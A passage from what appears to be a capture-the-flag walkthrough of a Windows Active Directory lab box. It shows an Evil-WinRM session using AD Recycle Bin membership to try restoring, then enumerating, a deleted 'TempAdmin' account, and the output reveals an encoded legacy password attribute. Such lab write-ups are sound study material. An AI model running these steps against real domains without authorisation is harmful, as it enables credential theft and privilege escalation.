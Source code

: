 ```
Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 10:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
Wa-hey! This user's part of the `AD Recycle Bin` group! Which means we can access the properties of deleted AD users! Remember earlier that we had found a deleted user called `TempAdmin` - now we can inspect that user more closely.
  
  
Now I must say that at this point, there is a [possibility to 'revive' a deleted user](https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/) since we're part of the `AD Recycle Bin` group, but we quickly see that we can't do it:
```
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -Filter {DisplayName -like 'TempAdmin'} -IncludeDeletedObjects | Restore-ADObject -NewName "NewAdmin"
Insufficient access rights to perform the operation
At line:1 char:79
+ ... Admin'} -IncludeDeletedObjects | Restore-ADObject -NewName "NewAdmin"
+                                      ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (CN=TempAdmin\0A...ascade,DC=local:ADObject) [Restore-ADObject], ADException
    + FullyQualifiedErrorId : 0,Microsoft.ActiveDirectory.Management.Commands.RestoreADObject
```
We have no permissions to revive `TempAdmin` into `NewAdmin` :(
  
  
But no matter! As we have been doing for all the new users we've discovered on this box, let's first check out `TempAdmin`'s properties:
```
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -Filter {DisplayName -like 'TempAdmin'} -IncludeDeletedObjects -Properties *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
```